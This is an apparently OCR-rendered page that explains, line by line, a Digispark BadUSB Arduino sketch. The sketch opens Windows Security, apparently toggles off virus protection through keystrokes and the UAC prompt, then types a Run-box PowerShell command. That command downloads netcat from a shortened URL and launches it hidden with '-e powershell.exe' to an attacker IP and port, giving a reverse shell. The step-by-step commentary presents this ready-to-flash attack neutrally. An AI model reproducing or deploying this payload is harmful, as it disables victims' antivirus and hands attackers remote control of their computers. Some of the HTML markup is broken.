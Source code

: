 <code>#include "DigiKeyboard.h"</code> <p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code>void setup()
{
</code> <p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code>DigiKeyboard.delay(1000);</code> <p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code> <p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code>  DigiKeyboard.delay(1000);</code> <p>Another delay of 1000 milliseconds is introduced.</p>

<code>DigiKeyboard.print("virus & threat protection");</code> <p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code>DigiKeyboard.delay(500);</code> <p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>  DigiKeyboard.sendKeyStroke(KEY_ENTER);</code> <p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

code>DigiKeyboard.delay(5000);</code> <p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

code>DigiKeyboard.sendKeyStroke(43);</code> <p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code> <p>Another Enter key press is simulated.</p>

code>DigiKeyboard.delay(700);</code> <p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code> <p>Another Enter key press is simulated.</p>

code>DigiKeyboard.delay(700);</code> <p>Another delay of 700 milliseconds is introduced.</p>

code>  DigiKeyboard.sendKeyStroke(KEY_SPACE);</code> <p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

code>DigiKeyboard.delay(2000);</code> <p>A delay of 2000 milliseconds (2 seconds) is added.</p>

code>DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code> <p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

code>DigiKeyboard.delay(1000);</code> <p>A delay of 1000 milliseconds (1 second) is introduced.</p>

code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code> <p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
code>  DigiKeyboard.delay(500);</code> <p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code> <p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

code>DigiKeyboard.delay(700);</code> <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

code>  DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code> <p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
code>code></code> <p></p></code> <p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

code>void loop()
{
}</code> <p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




